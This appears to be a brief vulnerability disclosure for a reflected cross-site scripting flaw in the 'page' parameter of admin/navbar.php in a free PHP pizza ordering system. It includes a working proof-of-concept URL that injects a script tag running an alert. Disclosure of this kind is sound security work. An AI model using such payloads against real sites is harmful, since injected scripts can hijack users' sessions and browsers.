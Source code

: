vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $page

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220946894-b3b80dc1-29a9-4744-afcc-98ce11de51bf.png)


exp

```
http://192.168.31.50/php-opos/admin/navbar.php?page=%27%3E%3C/script%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```
![image](https://user-images.githubusercontent.com/30823782/220946941-6ef2b5a0-1734-4d72-b494-f6d0cc123bc9.png)

